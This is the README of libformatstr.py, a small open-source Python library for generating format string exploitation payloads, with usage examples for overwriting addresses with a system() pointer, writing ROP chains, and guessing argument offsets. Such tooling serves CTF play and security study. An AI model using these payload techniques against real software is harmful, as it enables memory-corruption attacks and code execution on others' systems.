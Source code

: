 [![Rawsec's CyberSecurity Inventory](http://list.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat-square.svg)](http://list.rawsec.ml/tools.html#libformatstr)

libformatstr.py
====================

Small script to simplify format string exploitation.

Usage
---------------------

* Case 1 - replace one dword:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
system_addr = 0x080489a3

p = FormatStr()
p[addr] = system_addr

# buf is 14th argument, 4 bytes are already printed
sys.stdout.write( p.payload(14, start_len=4) )
```

* Case 2 - put ROP code somewhere:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
rop = [0x080487af, 0x0804873c, 0x080488de]
p = FormatStr()
p[addr] = rop

sys.stdout.write( p.payload(14) )
```

* Case 3 - guess argument number and padding:

```python
import sys
from libformatstr import FormatStr

# let's say we have do_fmt function,
# which gives us only output of format string
# (you can also just copy fmtstr and output manually)

buf_size = 250  # fix buf_size to avoid offset variation
res = do_fmt(make_pattern(buf_size))
argnum, padding = guess_argnum(res, buf_size)

# of course you can use it in payload generation

p = FormatStr(buf_size)
p[0xbffffe70] = "\x70\xfe\xff\xbf\xeb\xfe"  # yes, you can also put strings

sys.stdout.write( p.payload(argnum, padding, 3) ) # we know 3 bytes were printed already
```
* Case 4 - write something in specificed order:

```python
from libformatstr import FormatStr
f=FormatStr(autosort=False) #This option disables auto sorting
f[0x1234]=0x1
f[0x5678]=0x2
f[0xabcd]=0x3

#The payload will write address 0x1234 first,then 0x5678,then 0xabcd.
```

* Case 5 - while you are in amd64:

```python
from libformatstr import FormatStr
f=FormatStr(isx64=1) #This option force script to use 64bit address while generating payload
f[0x1234]=0x1
f[0x5678]=0x2
f[0xabcd]=0x3
```
About
---------------------

Author: hellman ( hellman1908@gmail.com )

License: MIT License ( http://opensource.org/licenses/MIT )
